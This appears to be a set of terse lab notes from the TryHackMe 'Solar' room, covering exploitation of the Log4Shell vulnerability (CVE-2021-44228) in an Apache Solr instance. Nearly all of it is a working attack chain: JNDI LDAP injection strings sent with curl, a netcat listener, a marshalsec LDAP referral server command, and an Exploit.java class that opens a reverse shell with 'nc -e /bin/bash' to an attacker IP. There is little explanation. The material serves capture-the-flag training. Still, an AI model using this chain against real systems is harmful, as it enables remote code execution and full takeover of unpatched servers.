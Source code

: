 [TryHackMe | Solar, exploiting log4j](https://tryhackme.com/room/solar)

**Solar, exploiting log4j**

*Explore CVE-2021-44228, a vulnerability in log4j affecting almost all software under the sun.*

![[Pasted image 20230606100110.png]]

`http://10.10.85.5:8983`

`http://10.10.85.5:8983/solr/#/`

![[Pasted image 20230606100945.png]]

`http://10.10.85.5:8983/solr/admin/cores`

![[Pasted image 20230606101210.png]]

`${jndi:ldap://ATTACKERCONTROLLEDHOST}`

```
nc -vnlp 9999
```

```shell-session
curl 'http://10.10.85.5:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:9999\}'
```

```
curl 'http://10.10.85.5:8983/solr/admin/cores?foo=$\{jndi:ldap://10.17.44.152:9999\}'
```

![[Pasted image 20230606101814.png]]

![[Pasted image 20230606101903.png]]

```shell-session
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://YOUR.ATTACKER.IP.ADDRESS:8000/#Exploit"
```

```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.10.239.89:8000/#Exploit"
```

*Exploit.java*

```shell-session
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

```
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

